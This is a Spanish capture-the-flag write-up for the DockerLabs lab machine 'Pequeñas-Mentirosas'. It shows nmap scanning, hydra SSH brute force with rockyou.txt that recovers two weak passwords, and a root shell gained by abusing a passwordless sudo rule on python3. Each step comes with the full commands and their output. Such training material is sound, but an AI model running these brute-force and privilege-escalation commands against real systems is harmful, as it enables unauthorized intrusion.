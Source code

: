 ```yaml
---
title: Pequeñas-Mentirosas
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-05-30
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-pequenas-mentirosas/pequenas-mentirosas_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - ssh
  - http
  - data_leaks
  - password_attacks
  - sudo_abuse
  - information_gathering
  - data_leak_exploitation
  - lateral_movement
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ ping -c 1 172.17.0.3
PING 172.17.0.3 (172.17.0.3) 56(84) bytes of data.
64 bytes from 172.17.0.3: icmp_seq=1 ttl=64 time=0.074 ms

--- 172.17.0.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.074/0.074/0.074/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.3 -n -Pn -oG nmap1
Host: 172.17.0.3 ()	Status: Up
Host: 172.17.0.3 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ nmap -sCV -vvv -p22,80 172.17.0.3 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 9e1058a51a429dbee519d12e799cce21 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC3N2iZE0Bb73S64lNUXiTtz3cITYUJqgbwvelAku4TIER/XzzRFH4jPuOjFW8MHqVgohznWwxFyrEbhJs71kHI=
|   256 6ba3a884e03357fc444969417dd3c992 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM3f1ALx7tSZjnqhdGlIXkcEcJCIS12yR5pEzywnF6rQ
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Site doesn't have a title (text/html).
MAC Address: E6:92:E9:02:8A:7E (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ whatweb 172.17.0.3
http://172.17.0.3 [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[172.17.0.3]
```

---
## Data Leak Exploitation

Al acceder a la página principal, el navegador muestra una pista indicando que la clave para el usuario `A` puede encontrarse en los archivos.

![](assets/img/dockerlabs-writeup-pequenas-mentirosas/pequenas-mentirosas1_1.png)

Con base en esta sugerencia, ejecuto un ataque de fuerza bruta sobre el servicio SSH utilizando hydra y el diccionario `rockyou.txt`.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ hydra -l a -P /opt/rockyou.txt ssh://172.17.0.3 -t 40 -I
[22][ssh] host: 172.17.0.3   login: a   password: secret
```

Se descubre la combinación válida de credenciales para el usuario `A`.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ ssh a@172.17.0.3
a@172.17.0.3's password: secret

a@4a7bc786dcf2:~$ id
uid=1001(a) gid=1001(a) groups=1001(a)
```

---
## Lateral Movement

```terminal
a@4a7bc786dcf2:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
spencer:x:1000:1000::/home/spencer:/bin/bash
a:x:1001:1001::/home/a:/bin/bash
```

Enumerando usuarios del sistema mediante `/etc/passwd`, se detecta la presencia de `spencer`. Ejecuto un nuevo ataque de fuerza bruta, esta vez dirigido al usuario `spencer`. El proceso revela que la contraseña utilizada es débil y está presente en el diccionario.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ hydra -l spencer -P /opt/rockyou.txt ssh://172.17.0.3 -t 40 -I
[22][ssh] host: 172.17.0.3   login: spencer   password: password1
```

Con las credenciales válidas, accedo al sistema como el nuevo usuario.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ ssh spencer@172.17.0.3
spencer@172.17.0.3's password: password1

spencer@4a7bc786dcf2:~$ id
uid=1000(spencer) gid=1000(spencer) groups=1000(spencer)
```

---
## Privilege Escalation

Consulto los permisos `sudo` disponibles para el usuario actual. El binario `/usr/bin/python3` puede ejecutarse como `root` sin necesidad de contraseña.

```terminal
spencer@4a7bc786dcf2:~$ sudo -l
Matching Defaults entries for spencer on 4a7bc786dcf2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User spencer may run the following commands on 4a7bc786dcf2:
    (ALL) NOPASSWD: /usr/bin/python3
```

Aprovecho esta configuración para ejecutar una shell privilegiada.

```terminal
spencer@4a7bc786dcf2:~$ sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash -p")'

root@4a7bc786dcf2:/home/spencer# id
uid=0(root) gid=0(root) groups=0(root)
```
